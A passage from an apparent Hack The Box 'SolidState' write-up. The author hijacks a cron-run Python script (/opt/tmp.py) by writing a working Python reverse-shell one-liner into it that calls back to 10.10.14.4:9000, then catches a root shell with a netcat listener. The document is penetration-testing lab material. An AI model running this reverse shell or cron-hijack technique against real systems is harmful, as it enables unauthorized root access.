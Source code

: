 It is! It runs `/opt/tmp.py` in every 3 minute!
Let's edit the file to spawn a reverse shell.

```bash
mindy@solidstate:opt$ cat tmp.py
#!/usr/bin/env python

import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.4",9000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")
```

Then, let's open a listener and wait for connection...

```sql
┌──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 9000          
listening on [any] 9000 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.51] 55918
# id
id
uid=0(root) gid=0(root) groups=0(root)

```

I got root!